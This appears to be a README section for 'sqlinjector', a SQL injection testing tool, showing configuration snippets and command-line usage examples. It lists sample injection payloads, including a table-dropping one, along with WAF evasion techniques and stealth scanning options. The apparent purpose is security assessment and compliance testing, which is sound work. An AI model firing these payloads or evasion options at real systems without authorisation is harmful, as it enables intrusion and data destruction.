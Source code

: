 ## 🎛️ Advanced Configuration

### Custom Payloads
```python
config.custom_payloads = [
    "' OR 1=1--",
    "'; DROP TABLE users--",
    "' UNION SELECT version()--"
]
```

### WAF Evasion
```python
config.evasion_techniques = [
    'unicode_normalization',
    'double_encoding',
    'payload_fragmentation',
    'timing_manipulation'
]
```

### AI Model Configuration
```python
config.ai_models = {
    'vulnerability_classifier': 'random_forest',
    'payload_generator': 'neural_network',
    'sequence_analyzer': 'lstm'
}
```

## 📊 Usage Examples

### 1. Comprehensive Security Assessment
```bash
python -m sqlinjector --target http://example.com --comprehensive --ai-analysis --multi-vector --report-format html
```

### 2. Stealth Testing with Evasion
```bash
python -m sqlinjector --target http://example.com --stealth --evasion-level high --delay 2
```

### 3. Database-Specific Testing
```bash
python -m sqlinjector --target http://example.com --database mysql --advanced-payloads
```

### 4. Compliance Testing
```bash
python -m sqlinjector --target http://example.com --compliance owasp --report-format json
```
